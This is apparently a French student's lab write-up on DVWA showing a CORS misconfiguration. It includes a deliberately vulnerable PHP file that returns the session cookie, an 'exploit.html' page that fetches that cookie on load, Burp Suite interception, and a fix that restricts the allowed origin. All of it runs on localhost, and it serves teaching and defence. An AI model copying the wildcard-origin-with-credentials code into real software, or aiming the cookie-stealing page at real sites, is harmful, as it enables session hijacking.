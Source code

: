 # Exercice 2: SATTACK

## Configuration du DVWA

1. Avec un script docker-compose.yml, j'ai pu créer l'architechture du DVWA.
2. J'ai configuré le DVWA en mode "low" pour faciliter les tests de sécurité.

[image](images/Screenshot%20from%202025-09-10%2016-19-28.png)

## Vunérabilité CORS

1. J'ai créé un fichier `cors_vulnerability.php` qui simule une vulnérabilité CORS en autorisant toutes les origines (`*`) et en renvoyant le cookie de session.

```php
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Credentials: true");
echo "Votre cookie de session : " . $_COOKIE['PHPSESSID'];
?>
```

- Le header `Access-Control-Allow-Origin: *` permet à n'importe quelle origine d'accéder à la ressource.
- Le header `Access-Control-Allow-Credentials: true` permet d'autoriser l'envoi des cookies avec les requêtes CORS.

- J'ai monté la vulnérabilité dans le conteneur DVWA.

```yml
volumes:
    - ./cors_vulnerability.php:/var/www/html/cors_vulnerability.php
```

### Préparation de la page malveillante

J'ai créé un fichier `exploit.html` qui exploite la vulnérabilité CORS pour voler le cookie de session avec ce script pour le faire: 

```html
<!DOCTYPE html>
<html>
<head>
    <title>Page Malveillante</title>
</head>
<body>
   
    <div id="result"></div>
    
    <script>
        function stealCookie() {
            fetch('http://localhost:8080/cors_vulnerability.php', {
                method: 'GET',
                credentials: 'include'
            })
            .then(response => response.text())
            .then(data => {
                document.getElementById('result').innerHTML = 
                    '<h2>cookie vole</h2> <span>' + data + '</span>';
                console.log('Cookie volé:', data);
            })
        }
        window.onload = function() {
            stealCookie();
        };
    </script>
</body>
</html>


```
- Le script utilise la méthode `fetch` pour envoyer une requête GET à `cors_vulnerability.php` avec l'option `credentials: 'include'` pour inclure les cookies.

- Dans cette article, [url](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS), il est dit que , lorsque `Access-Control-Allow-Origin` est défini sur `*`, les navigateurs n'incluent pas les cookies dans les requêtes CORS, même si `credentials: 'include'` est spécifié. Cela signifie que le cookie de session ne sera pas envoyé avec la requête fetch, et par conséquent, le script ne pourra pas voler le cookie de session.

[image](images/Screenshot%20from%202025-09-10%2017-37-34.png)

- Donc pour contourner cette restrition j'utilise l'extension `Allow-CORS` dans le navigateur qui permet de désactiver la politique CORS pour les tests de sécurité.

[image](images/Screenshot%20from%202025-09-10%2017-39-26.png)

- Je sert cette page malveillante en utilisant un serveur HTTP simple:

```bash
python3 -m http.server 8000
```

- Le cookie volé est affiché dans la page HTML.

[image](images/Screenshot%20from%202025-09-10%2016-48-41.png)

### Capturer le traffic avec Burp Suite

- Sur Blurp Suite, j'ai fait une configuration par défaut du proxy pour intercepter les requétes HTTP.
- J'ai ouvert le navigateur à partir de Burp Suite pour capturer le trafic.
- Je me suis loggué dans le DVWA pour générer un cookie de session.
- Puis j'ai visité la page vulnérable `http://localhost:8080/cors_vulnerability.php` pour m'assurer que le cookie est bien renvoyé.

[image](images/Screenshot%20from%202025-09-10%2016-57-59.png)

- Ensuite, j'ai visité la page malveillante `http://localhost:8000/exploit.html` pour exécuter le script de vol de cookie.

[image](images/Screenshot%20from%202025-09-10%2016-59-46.png)

- Que je forward dans BlurpSuite pour avoir la réponse.
- J'intercepte encore la réquéte vers `http://localhost:8080/cors_vulnerability.php` qui contient le cookie de session dans la réponse que je forwarde pour avoir le cookie dasn la réponse de la page malveillante.

[image](images/Screenshot%20from%202025-09-10%2017-03-08.png)

### Contre-mesure

- Pour corriger la vulnérabilité, j'ai modifié le fichier `cors_vulnerability.php` pour restreindre l'origine autorisée à une origine de confiance spécifique au lieu d'utiliser `*`.

```php
header("Access-Control-Allow-Origin: http://localhost:5000");
```

- Pour tester je settup la page de confiance sur le port 5000:

```bash
python3 -m http.server 5000
```

- Et j'obtient bien le cookie.

[image](images/Screenshot%20from%202025-09-10%2017-44-39.png)


- Je fais le méme test sur la page malveillante sur le port 8000.

[image](images/Screenshot%20from%202025-09-10%2017-14-09.png)

- La requéte pour récupérer le cookie ne marche plus car l'origine n'est pas ```http://localhost:5000```.




